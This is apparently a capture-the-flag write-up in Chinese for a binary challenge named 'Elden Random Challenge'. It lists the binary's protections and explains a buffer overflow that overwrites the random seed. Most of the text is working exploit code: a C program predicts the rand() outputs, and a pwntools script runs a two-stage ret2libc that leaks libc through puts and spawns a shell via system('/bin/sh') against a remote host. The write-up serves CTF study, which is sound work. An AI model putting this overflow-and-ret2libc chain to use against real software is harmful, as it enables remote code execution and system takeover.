 # Elden Random Challenge

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

`buf`是10字节，但读入18字节，因此可以溢出到`seed`，以此控制random的结果，如改为0。
编写c程序，模拟99次应该输入的数据，接着打ret2libc即可

## EXPLOIT

```c
// randint.c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    srand(0);
    for (int i = 0; i < 99; i++) {
        int randint = rand() % 100 + 1;
        printf("%d\n", randint);
    }
    return 0;
}
```

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./random')
        libc = ELF('/usr/lib/libc.so.6')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 31193)
        libc = ELF('./libc.so.6')
    elf = ELF('./random')
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    popRdiAddr = 0x401423
    myreadAddr = elf.symbols['myread']

    probe = process('./randint')
    nums = []
    for i in range(99):
        nums.append(probe.recvline(False))
    probe.close()

    sh.send(b'RocketDev\0' + p64(0)) # write seed to 0
    for i in range(99):
        sh.recvuntil(b'ber:')
        sh.send(p64(int(nums[i])))
    sh.recvuntil(b'mind.\n')

    # payload 1, leak libc
    sh.sendline(b'0'*0x38 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(myreadAddr))

    putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = putsGotAddr - libc.symbols['puts']
    shstrAddr = libcBase + next(libc.search(b'/bin/sh'))
    systemAddr = libcBase + libc.symbols['system']
    retAddr = 0x401286
    sleep(0.5)

    # payload 2, invoke system
    sh.sendline(b'0'*0x38 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

    sh.interactive()
```
